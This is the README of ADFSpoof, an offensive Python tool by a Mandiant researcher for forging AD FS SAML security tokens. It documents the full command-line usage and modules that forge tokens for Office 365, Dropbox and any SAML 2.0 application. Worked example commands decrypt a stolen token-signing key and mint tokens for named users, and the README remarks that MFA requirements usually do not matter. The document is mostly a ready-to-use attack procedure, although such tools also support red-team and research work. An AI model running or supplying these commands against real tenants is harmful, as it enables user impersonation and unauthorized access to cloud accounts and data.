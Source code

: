 # ADFSpoof

A python tool to forge AD FS security tokens.

Created by Doug Bienstock [(@doughsec)](https://twitter.com/doughsec) while at Mandiant FireEye.

## Detailed Description

ADFSpoof has two main functions:
1. Given the EncryptedPFX blob from the AD FS configuration database and DKM decryption key from Active Directory, produce a usable key/cert pair for token signing.
2. Given a signing key, produce a signed security token that can be used to access a federated application.

This tool is meant to be used in conjunction with ADFSDump. ADFSDump runs on an AD FS server and outputs important information that you will need to use ADFSpoof.

If you are confused by the above, you might want to read up on AD FS first. For more information on AD FS spoofing I will post a link to my TROOPERS 19 talk and slides when they are released.

## Installation

ADFSpoof is written in Python 3.

ADFSpoof requires the installation of a custom fork of the Python Cryptography package, available [here](https://github.com/dmb2168/cryptography). Microsoft did not exactly follow the RFC for Key Deriviation :wink:, so a fork of the package was needed.

All other requirements are captured in the repo's requirements.txt.

`pip install -r requirements.txt`

## Usage

```
usage: ADFSpoof.py [-h] (-b BLOB BLOB | -c CERT) [-p PASSWORD] [-v VERBOSE]
                   [--assertionid ASSERTIONID] [--responseid RESPONSEID]
                   [-s SERVER] [-a ALGORITHM] [-d DIGEST] [-o OUTPUT]
                   {o365,dropbox,saml2,dump} ...

optional arguments:
  -h, --help            show this help message and exit
  -b BLOB BLOB, --blob BLOB BLOB
                        Encrypted PFX blob and decryption key
  -c CERT, --cert CERT  AD FS Signing Certificate
  -p PASSWORD, --password PASSWORD
                        AD FS Signing Certificate Password
  -v VERBOSE, --verbose VERBOSE
                        Verbose Output
  --assertionid ASSERTIONID
                        AssertionID string. Defaults to a random string
  --responseid RESPONSEID
                        The Response ID. Defaults to random string
  -s SERVER, --server SERVER
                        Identifier for the federation service. Usually the
                        fqdn of the server. e.g. sts.example.com DO NOT
                        include HTTPS://
  -a ALGORITHM, --algorithm ALGORITHM
                        SAML signing algorithm to use
  -d DIGEST, --digest DIGEST
                        SAML digest algorithm to use
  -o OUTPUT, --output OUTPUT
                        Write generated token to the supplied filepath

modules:
  loaded modules

  {o365,dropbox,saml2,dump}
                        additional help
```
### Cryptographic Material

All ADFSpoof functionality requires cryptographic material for the AD FS signing key. This can be supplied in one of two ways:

* `-b BLOB BLOB`: Supply the EncryptedPFX binary blob (base64 decode what is pulled out of the configuration database) and the DKM key from Active directory. Order matters!
* `-c CERT`: Provide a PKCS12-formatted file for the signing key and certificate. If it is password protected supply a password with `-p`. The overall file password and private key password must be the same.


### Global Options

* `-s SERVER`: The AD FS service identifier. Required when using any module that generates a security token. This goes into the security token to let the federated application know who generated it.
* `-o FILEPATH`: Outputs the generated token to disk instead of printing it.
* `--assertionid` and `--responseid`: If you wish to supply custom attribute values for SAML AssertionID and ResponseID. Defaults to random strings.
* `-d DIGEST`: Set the MAC digest algorithm. Defaults to SHA256.
* `-a ALGORITHM`: Set the signature algorithm. Defaults to RSA-SHA256.


### Command Modules

ADFSpoof is built modularly with easy expansion in mind. Currently, it comes preloaded with four command modules that support different functionality.

Each module encapsulates the SAML attributes and values necessary to generate a valid security token for a specific token type or federated application. *Note that for the applications specific modules, the template represents the generic installation. Customization may be required for organizations that have messed with the defaults.*

#### o365

Generates a forged security token to access Microsoft Office 365. This is a SAML 1.1 token.

* `--upn UPN`: The universal principal name of the user to generate a token for. Get this from AD.
* `--objectguid`: The Object GUID of the user to generate a token for. Get this from AD. Include the curly braces.

#### Dropbox

Generats a forged security token to access Dropbox. This is a SAML 2.0 token.

* `--email EMAIL`: The email address of the user to generate a token for.
* `--accountname ACCOUNT`: The SamAccountName of the user to generate a token for.

#### SAML2

A command that encapsulates generating a generic SAML 2.0 security token. Use this module to generate security tokens for arbitrary federated applications that are using SAML 2.0. By reading the data returned by ADFSDump you should be able to generate a valid token for just about any federated application using this module.

* `--endpoint ENDPOINT`: The recipient of the seucrity token. This should be a full URL.
* `--nameidformat URN`: The value for the 'Format' attribute of the NameIdentifier tag. This should be a URN.
* `--nameid NAMEID`: The NameIdentifier attribute value.
* `--rpidentifier IDENTIFIER`: The Identifier of the relying party that is receiving the token.
* `--assertions ASSERTIONS`: The assertions that the relying party is expecting. Use the claim rules output by ADFSDump to ascertain this. Should be a single-line (do not include newlines) XML string.
* `--config FILEPATH`: A filepath to a JSON file containing the above arguments. Optional - use this if you don't want to supply everything over the command line.

#### Dump

Helper command that will take the supplied EncryptedPFX blob and DKM key from `-b`, decrypt the blob, and output the PFX file to disk. Use this to save the PFX for later.

`--path PATH`: The filepath to save the generated PFX.

### Examples

#### Decrypt the EncryptedPFX and write to disk
`python ADFSpoof.py -b EncryptedPfx.bin DKMkey.bin dump`

#### Generate a security token for Office365

`python ADFSpoof.py -b EncryptedPfx.bin DkmKey.bin -s sts.doughcorp.com o365 --upn robin@doughcorp.co --objectguid {1C1D4BA4-B513-XXX-XXX-3308B907D759}`

#### Generate a SAML 2.0 token for some app

`python ADFSpoof.py -b EncryptedPfx.bin DkmKey.bin -s sts.doughcorp.com saml2 --endpoint https://my.app.com/access/saml --nameidformat urn:oasis:names:tc:SAML:1.1:nameid-format:emailAddress --nameid robin@doughcorp.com --rpidentifier myapp --assertions <Attribute Name="http://schemas.xmlsoap.org/ws/2005/05/identity/claims/emailaddress"><AttributeValue>robin@doughcorp.com</AttributeValue></Attribute>`

### Reading Issuance Authorization Rules

More coming soon! As a tl;dr for SAML 2.0 each issuance rule (with the exception of the nameid rule) is going to be translated into a SAML assertion. SAML assertions are <Attribute><AttributeValue></AttributeValue><Attribute> tags. The Attribute tag must have an attribute called "Name" that value of which is the claim type. The claim value goes inside the <AttributeValue> tags.
  
  There is a little more nuance which I hope to discuss in a wiki page soon, but that is the basic idea. Relying Parties may have "StrongAuth" rules and MFA requirements, but usually we don't care about those.



